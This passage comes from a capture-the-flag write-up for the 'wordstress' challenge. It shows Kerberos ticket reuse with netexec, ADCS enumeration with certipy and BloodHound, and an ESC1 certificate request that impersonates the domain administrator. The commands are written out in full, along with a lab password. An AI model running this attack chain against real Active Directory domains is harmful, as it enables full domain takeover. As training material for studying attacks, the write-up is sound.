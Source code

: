 {{< image src="/img/p3rf3ctr00t_ctf_2024/wordstress_21.png" alt="" position="center" style="border-radius: 8px;" >}}

After downloading the file to my local machine, I imported the ccache file and could now use it for kerberos authentication auth as sanji. For netexec we need to specify `--use-kcache`.

proxychains -q netexec smb 94.72.112.254 --use-kcache

{{< image src="/img/p3rf3ctr00t_ctf_2024/wordstress_22.png" alt="" position="center" style="border-radius: 8px;" >}}

At this point, this was well and good but I still couldn't use this access to connect to the DC. So I switched to trying out ADCS. Since we noted it was present when we did recon on the available shares.

I used certipy and specified -old-bloodhound, so I can import the results into the bloodhound.

```sh
proxychains -q certipy find -u crocodile@grandline.local -p 'Cr0c0d1le_tears_lol1234' -dc-ip 94.72.112.254 -old-bloodhound
```

{{< image src="/img/p3rf3ctr00t_ctf_2024/wordstress_23.png" alt="" position="center" style="border-radius: 8px;" >}}

From Bloodhound, we can see that we have 2 certificates that we can use for ESC1 attack.

{{< image src="/img/p3rf3ctr00t_ctf_2024/wordstress_24.png" alt="" position="center" style="border-radius: 8px;" >}}

If we checked from our owned principals, we see that we can use sanji to abuse this.

{{< image src="/img/p3rf3ctr00t_ctf_2024/wordstress_25.png" alt="" position="center" style="border-radius: 8px;" >}}

From certipy output (if you don't provide the -old-bloodhound option), we can confirm that sanji has rights on this certificate. This is also the challenge name, so it was a no brainer this was the intended path.

{{< image src="/img/p3rf3ctr00t_ctf_2024/wordstress_26.png" alt="" position="center" style="border-radius: 8px;" >}}

### Marinford Degree Flag

Now we can exploit this and get administrator access and access the flag.

```sh
proxychains -q certipy req -k -ca grandline-DC-CA -target dc.grandline.local -template Marinford_Degree -upn administrator@grandline.local -dns-tcp -dc-ip 94.72.112.254
```

{{< image src="/img/p3rf3ctr00t_ctf_2024/wordstress_27.png" alt="" position="center" style="border-radius: 8px;" >}}


```sh
proxychains -q certipy auth -pfx administrator_dc.pfx -dc-ip 94.72.112.254
```

{{< image src="/img/p3rf3ctr00t_ctf_2024/wordstress_28.png" alt="" position="center" style="border-radius: 8px;" >}}
